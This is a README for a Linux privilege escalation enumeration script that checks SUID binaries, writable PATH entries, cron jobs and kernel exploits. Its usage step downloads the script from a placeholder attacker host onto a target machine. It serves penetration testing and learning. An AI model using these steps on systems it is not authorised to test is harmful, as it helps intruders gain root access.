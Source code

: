 # Privilege Escalation Helper Tool

This is a beginner-friendly privilege escalation enumeration tool designed for Linux systems. It automatically checks for:
- SUID binaries and matches them against GTFOBins
- Writable paths in $PATH
- Cron jobs
- Kernel version and suggests known exploits using linux-exploit-suggester

## Usage

1. Upload the script to the target machine:
```
wget http://<attacker-ip>/privesc_helper.sh
chmod +x privesc_helper.sh
```
<p align="center">
  <img src="demo.jpg" alt="Auto-privsec Demo Screenshot" width="800px">
</p>

<p align="center"><b>From shell to root in seconds — your privilege escalation sidekick</b></p>

2. (Optional) Place `linux-exploit-suggester.sh` in the same folder.

3. Run the tool:
```
./privesc_helper.sh
```

4. Check the results in `privesc_report.txt`.

## Notes

- The script requires `curl`, `bash`, and `tee`.
- It does not exploit automatically — it assists with clear enumeration.

## License

MIT License

Copyright (c) 2025 ZAR

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the “Software”), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED “AS IS”, WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

